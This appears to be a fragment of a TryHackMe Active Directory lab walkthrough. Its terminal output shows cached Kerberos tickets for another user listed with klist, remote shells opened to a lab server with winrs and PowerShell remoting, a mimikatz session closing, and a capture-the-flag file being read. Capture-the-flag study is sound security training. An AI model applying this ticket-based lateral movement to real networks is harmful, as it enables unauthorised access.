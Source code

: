 ```text
Microsoft Windows [Version 10.0.17763.1098]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\t2_alan.riley>klist

Current LogonId is 0:0x2e7dc8

Cached Tickets: (2)

#0>     Client: t1_trevor.jones @ ZA.TRYHACKME.LOC
        Server: http/THMSERVER1.za.tryhackme.loc @ ZA.TRYHACKME.LOC
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 11/7/2022 17:37:37 (local)
        End Time:   11/8/2022 3:32:55 (local)
        Renew Time: 11/14/2022 17:32:55 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:

#1>     Client: t1_trevor.jones @ ZA.TRYHACKME.LOC
        Server: wsman/THMSERVER1.za.tryhackme.loc @ ZA.TRYHACKME.LOC
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 11/7/2022 17:38:04 (local)
        End Time:   11/8/2022 3:32:55 (local)
        Renew Time: 11/14/2022 17:32:55 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:

C:\Users\t2_alan.riley>winrs winrs -r:thmserver1.za.tryhackme.loc cmd
Microsoft Windows [Version 10.0.17763.1098]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\t1_trevor.jones>
```

As an alternative, use a Powershell session:

```text
mimikatz # exit
Bye!
PS C:\Users\t2_alan.riley> New-PSSession -ComputerName thmserver1.za.tryhackme.loc

 Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 WinRM1          thmserver1.z... RemoteMachine   Opened        Microsoft.PowerShell     Available


PS C:\Users\t2_alan.riley> Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents>
```


[thmserver1.za.tryhackme.loc]: PS C:\Users\Administrator\Desktop> cat flag2.txt